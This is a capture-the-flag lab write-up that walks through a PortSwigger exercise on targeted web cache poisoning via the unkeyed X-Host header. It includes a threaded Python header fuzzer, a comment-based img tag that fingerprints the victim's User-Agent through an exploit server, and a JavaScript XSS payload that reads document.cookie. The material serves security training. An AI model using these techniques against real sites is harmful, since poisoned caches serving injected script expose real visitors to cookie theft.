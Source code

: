 # Targeted web cache poisoning using an unknown header

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header), you'll learn: Targeted web cache poisoning using an unknown header! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab is vulnerable to [web cache poisoning](https://portswigger.net/web-security/web-cache-poisoning). A victim user will view any comments that you post. To solve this lab, you need to poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser. However, you also need to make sure that the response is served to the specific subset of users to which the intended victim belongs.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123193253.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123193349.png)

In here, we see that the web application is using caches to cache the web content.

Also, it has a HTTP header called `Vary`, and **it specifies the `User-Agent` header.**

The `Vary` header specifies a list of additional headers that should be treated as part of the cache key even if they are normally unkeyed. **It is commonly used to specify that the `User-Agent` header is keyed**, for example, so that if the mobile version of a website is cached, this won't be served to non-mobile users by mistake.

**Moreover, when we visit the website, it loaded a JavaScript from `/resources/js/tracking.js`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123193552.png)

**View source page:**
```html
<script type="text/javascript" src="//0a5500e503331cbbc06b90ea002f001a.web-security-academy.net/resources/js/tracking.js"></script>
```

**Now, we can test is it accepting the `X-Forwarded-Host` HTTP header. If it does, then we can poison the cache, and load any JavaScript file from any website:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123194436.png)

Nope. It doesn't work.

**To find header that changes the loaded JavaScript file domain, I'll write a Python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

class Requester:
    def __init__(self, url, wordlistPath):
        self.__url = url
        self.__wordlistPath = wordlistPath

    def readFileAndSendRequest(self):
        counter = 0
        with open(self.__wordlistPath, 'r') as file:
            for header in file:
                # Prevent our fuzzing is being cached.
                # Otherwise it won't find the valid HTTP header
                cacheBuster = f'?buster=buster{counter}'

                thread = Thread(target=self.sendRequest, args=(header.strip(), cacheBuster))
                thread.start()
                sleep(0.02)
                counter += 1

    def sendRequest(self, cleanHeader, cacheBuster):
        payload = {cleanHeader: 'web-cache-poisoning-header-fuzzing.com'}
        finalURL = self.__url + cacheBuster

        requestResult = requests.get(finalURL, headers=payload)
        print(f'[*] Trying HTTP header: {cleanHeader:40s}', end='\r')

        if 'web-cache-poisoning-header-fuzzing.com' in requestResult.text:
            print(f'[+] Found valid HTTP header: {cleanHeader}')

def main():
    url = 'https://0a5500e503331cbbc06b90ea002f001a.web-security-academy.net/'
    wordlistPath = '/usr/share/seclists/Discovery/Web-Content/BurpSuite-ParamMiner/lowercase-headers'

    requester = Requester(url, wordlistPath)
    requester.readFileAndSendRequest()

if __name__ == '__main__':
    main()
```

```shell
┌[root♥siunam]-(~/ctf/Portswigger-Labs/Web-Cache-Poisoning)-[2023.01.23|20:57:16(HKT)]
└> python3 fuzz_header.py
[+] Found valid HTTP header: X-Host
```

Found it! The `X-Host` header is valid!

**To confirm it, we can send the request again with the header:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123210009.png)

Nice!

Now, if we can control the JavaScript file domain, **we can poison the cache and load any JavaScript files from anywhere.**

But before we do that, let's find out victim's `User-Agent`!

**To do so, we can go to one of those posts in the home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123210202.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123210211.png)

As you can see, we can leave some comments and HTML is allowed.

**Let's create an `<img>` element that pointing to our exploit server. By doing that, we can finger print victim's `User-Agent` value:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123210343.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123210359.png)

**Exploit server access log:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123210421.png)

Found it!

- Victim `User-Agent`: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.74 Safari/537.36

Armed with above information, we can poison the web cache **with the victim's `User-Agent`** and our evil JavaScript file:

**Evil JavaScript file:**
```js
document.write('<img src=errorpls onerror=alert(document.cookie)>');
```

**Then host it on the exploit server:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123212203.png)

**Finally, poison the web cache:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123212241.png)

When the victim visit the website, it'll load our evil JavaScript file, which will then trigger an alert box.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123212316.png)

# What we've learned:

1. Targeted web cache poisoning using an unknown header